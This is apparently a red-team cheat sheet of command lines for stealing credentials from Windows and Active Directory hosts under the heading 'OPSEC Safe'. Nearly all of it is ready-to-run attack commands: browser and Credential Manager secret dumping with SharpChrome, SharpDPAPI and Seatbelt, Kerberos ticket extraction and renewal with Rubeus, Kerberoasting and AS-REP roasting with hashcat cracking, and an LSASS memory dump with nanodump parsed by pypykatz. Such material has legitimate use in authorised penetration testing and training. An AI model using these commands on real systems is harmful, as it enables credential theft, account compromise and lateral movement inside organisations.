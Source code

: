 #### OPSEC Safe

Browser credentials
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpChrome\bin\Release\SharpChrome.exe logins
```

Windows Credential Manager
```powershell
run vaultcmd /listcreds:"Windows Credentials" /all
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
```

```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /rpc
```

 Extracting tickets + renewing them
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x6c5b5 /service:krbtgt /nowrap
```

```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:doIFq[...snip...]uQ09N

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe renew /ticket:doIFq[...snip...]uQ09N /nowrap
```
 
 Kerberoasting
```powershell
ldapsearch "(&(objectClass=user)(servicePrincipalName=*)(!(userAccountControl:1.2.840.113556.1.4.803:=1048576)))" --attributes samAccountName,servicePrincipalName,objectsid,ntsecuritydescriptor
```

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /spn:MSSQLSvc/dub-sql-2.dublin.contoso.com /simple /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:MSSQLSVC /simple /nowrap
```

```powershell
C:\Tools\hashcat.exe -a 0 -m 13100 .\kerb.hash .\example.dict -r .\rules\dive.rule
```

AS-REP Roasting
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /format:hashcat /nowrap
```

---

Nanodump Adpatix C2
```powershell
nanodump -w C:\Windows\System32\dotnet.tmp --valid

pypykatz lsa minidump dotnetdmp.tmp
```
